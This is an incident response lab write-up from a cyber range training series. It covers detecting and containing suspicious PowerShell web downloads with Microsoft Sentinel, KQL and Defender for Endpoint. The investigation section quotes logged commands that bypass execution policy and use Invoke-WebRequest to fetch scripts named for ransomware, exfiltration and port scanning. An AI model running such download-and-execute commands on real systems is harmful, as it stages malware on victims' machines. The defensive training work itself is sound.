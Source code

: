 ## 🔐 Incident Response Lab: PowerShell Suspicious Web Request

**Author**: Jason Nguyen  
**Date**: 19 June 2025

**Tools, Technologies & Frameworks Used**:
- Microsoft Sentinel
- Microsoft Defender for Endpoint (MDE)
- Azure Log Analytics Workspace (LAW)
- Azure Virtual Machine (windows-target-1)
- KQL (Kusto Query Language)
- MITRE ATT&CK
- GitHub (Markdown Reporting)
- NIST 800-61 Framework

**Tooling**: Microsoft Sentinel · KQL · Microsoft Defender for Endpoint · Azure VM · Log Analytics

---

### 📘 Summary

This incident response exercise simulates detection and investigation of a suspicious PowerShell command used to download multiple scripts from the internet using `Invoke-WebRequest`. Such activity often indicates post-exploitation behavior by attackers, such as downloading malware or establishing persistence. I built a custom detection rule in Microsoft Sentinel, triggered an incident, and walked through the response lifecycle using real-world techniques aligned with [NIST 800-61](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final).

---

### 🧠 Objectives

* Detect potentially malicious PowerShell web requests using KQL.
* Investigate the source and impact of script downloads on a target VM.
* Simulate response and containment actions in MDE.
* Document incident handling steps aligned to NIST 800-61.

---

### 🔎 Detection Logic (KQL)

```kql
let TargetHostname = "windows-target-1"; 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
````

This query looks for instances of PowerShell (`powershell.exe`) being used to run `Invoke-WebRequest`, indicating an attempt to download content from an external server.

---

### ⚙️ Alert Rule Configuration

* **Rule Name**: PowerShell Suspicious Web Request
* **Trigger Type**: Scheduled Analytics Rule
* **Query Schedule**: Every 4 hours
* **Lookback Period**: Last 14 days
* **Alert Threshold**: Greater than 0
* **Entity Mappings**:

  * Account → Name → `AccountName`
  * Host → HostName → `DeviceName`
  * Process → CommandLine → `ProcessCommandLine`
* **MITRE ATT\&CK Mapping**:

  * T1059.001 – PowerShell
  * T1203 – Exploitation for Client Execution
  * T1071.001 – Web Protocols
  * T1105 – Ingress Tool Transfer
  * T1041 – Exfiltration Over C2 Channel
* **Event Grouping**: All events grouped into a single alert
* **Incident Settings**: Enabled
* **Suppression**: Suppress alerts for 24 hours after trigger
* **Auto-Incident Creation**: Enabled

![entity-mapping](images/entity-mapping.png)

---

### 🚨 Incident Investigation

**Triggered Incident**:
“J - PowerShell Suspicious Web Request”
**Device**: `windows-target-1`
**User Involved**: One user

During the incident, four separate PowerShell commands were used to download suspicious scripts:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../portscan.ps1 -OutFile C:\programdata\portscan.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

Upon contacting the user, they stated they were trying to install free software but only saw a black screen. Suspicion arose regarding possible social engineering or misuse of legitimate tools.

**Script Execution Verification**:
Used this query to confirm whether the downloaded scripts were executed:

```kql
let TargetHostname = "windows-target-1"; 
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

⚠️ **Result**: All four scripts were executed on the target system.

![scripts-executed](images/scripts-found.png)

---

### 🛡️ Response & Containment

* The machine was **isolated** via Microsoft Defender for Endpoint.
* A **full antivirus scan** was performed and returned clean.
* After validation, the machine was **removed from isolation** and restored to standard operation.

---

### 📋 Post-Incident Activities

* The user completed an **immediate cybersecurity awareness training** session.
* Organization upgraded the **KnowBe4 security awareness training** and increased frequency of mandatory sessions for all staff.
* **New PowerShell usage policy** drafted — restricting execution to essential personnel only.
* Posted a comment on Incident Acitivty Log in Sentinel, and closed the incident.

![incident-acitivty-log](images/sentinel-incident-activity-log.png)

---

### 🧩 Challenges & Takeaways

* KQL query initially returned no results — needed to expand `TimeGenerated` to 30 days.
* Learned the distinction between `InitiatingProcessCommandLine` (parent) vs. `ProcessCommandLine` (child).
* Practiced careful IR documentation, user communication, and validated execution of potential payloads.
* Reinforced understanding of PowerShell abuse in post-exploitation stages.

---

### ✅ Skills Demonstrated

* Threat detection using KQL in Log Analytics
* Incident triage and response in Microsoft Sentinel
* Endpoint investigation and validation using MDE
* NIST 800-61 incident handling lifecycle
* Practical understanding of PowerShell abuse techniques

---

## 📎 Notes

* This lab was completed as part of Josh Madakor’s Cyber Range series.
* Incident response actions simulated in a controlled learning environment.
* All files and URLs used were part of safe, educational scenarios for cybersecurity training.
